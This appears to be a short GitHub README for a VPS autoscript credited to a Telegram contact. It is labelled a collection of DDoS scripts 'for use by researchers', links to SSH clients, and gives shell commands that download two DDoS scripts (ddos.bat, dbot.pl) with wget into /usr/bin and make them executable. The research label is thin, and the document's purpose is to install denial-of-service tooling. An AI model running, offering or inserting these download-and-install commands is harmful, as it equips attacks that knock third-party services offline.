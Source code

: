## Autoscript VPS created by [Telegram: Si Tony](https://t.me/simuncaibetollah):shipit:
 
###### Operating software
:computer:[Putty.exe for PC(64-bit)](https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe)

:phone:[JuiceSSH for Android](https://play.google.com/store/apps/details?id=com.sonelli.juicessh&hl=en)

###### Collection of scripts used in DDOS activity for use by researchers

# DDOS-Scripts
```
# Download Script
cd /usr/bin
wget https://raw.githubusercontent.com/syahz86/VPN/master/conf/ddos-scripts/ddos.bat && chmod +x ddos.bat
wget https://raw.githubusercontent.com/syahz86/VPN/master/conf/ddos-scripts/dbot.pl && chmod +x dbot.pl
```
